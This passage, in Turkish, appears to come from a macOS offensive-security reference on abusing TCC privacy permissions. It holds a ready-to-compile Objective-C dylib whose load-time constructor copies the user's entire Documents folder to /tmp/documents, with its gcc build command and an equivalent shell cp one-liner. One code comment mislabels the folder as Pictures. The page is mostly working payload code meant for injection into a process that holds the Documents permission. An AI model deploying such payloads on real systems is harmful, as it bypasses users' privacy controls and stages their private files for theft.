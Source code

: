 ### Belgeler

- **Yetki**: Yok
- **TCC**: `kTCCServiceSystemPolicyDocumentsFolder`

{{#tabs}}
{{#tab name="ObjetiveC"}}
`$HOME/Documents` dizinini `/tmp/documents` dizinine kopyala.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Documents"];
NSString *tmpPhotosPath = @"/tmp/documents";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{{#endtab}}

{{#tab name="Shell"}}
`$HOME/`Documents'ı `/tmp/documents`'a kopyalayın.
```bash
cp -r "$HOME/Documents" "/tmp/documents"
```
{{#endtab}}
{{#endtabs}}

### İndirmeler

- **Yetki**: Yok
- **TCC**: `kTCCServiceSystemPolicyDownloadsFolder`
